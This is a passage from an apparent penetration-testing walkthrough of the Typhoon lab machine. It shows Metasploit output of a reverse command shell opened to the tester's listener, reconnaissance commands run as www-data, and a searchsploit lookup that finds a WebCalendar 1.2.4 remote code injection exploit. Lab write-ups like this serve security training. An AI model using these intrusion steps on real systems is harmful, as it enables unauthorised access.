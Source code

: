 ```
[*] Sending stage (36 bytes) to 10.99.59.112
[*] Command shell session 1 opened (10.99.78.205:4444 -> 10.99.59.112:57838) at 2019-02-13 13:14:15 -0500

/bin/bash -i
bash: cannot set terminal process group (2473): Inappropriate ioctl for device
bash: no job control in this shell
www-data@typhoon:/usr/lib/cgi-bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@typhoon:/usr/lib/cgi-bin$ uname -a
uname -a
Linux typhoon.local 3.13.0-32-generic #57-Ubuntu SMP Tue Jul 15 03:51:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
www-data@typhoon:/usr/lib/cgi-bin$ lsb_release -a
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.1 LTS
Release:	14.04
Codename:	trusty

```

### WebCalendar

Because we performed a zone transfer, we were able to get a hint into another possibly vulnerable service. Because the web server is using vhosts, we must edit our `/etc/hosts` file and add the following row:
```
10.99.59.112	calendar.typhoon.local
```

If we now browse to calendar.typhoon.local, we're greeted with a login prompt. Conveniently enough, this page also displays the software version. We seem to be dealing with WebCalendar version 1.2.4.

Let's search for WebCalendar vulnerabilities:

```
$ searchsploit webcalendar
--------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                             |  Path
                                                                           | (/usr/share/exploitdb/)
--------------------------------------------------------------------------- ----------------------------------------
[...]
WebCalendar 1.2.4 - Remote Code Injection (Metasploit)                     | exploits/linux/webapps/18797.rb
[...]
--------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

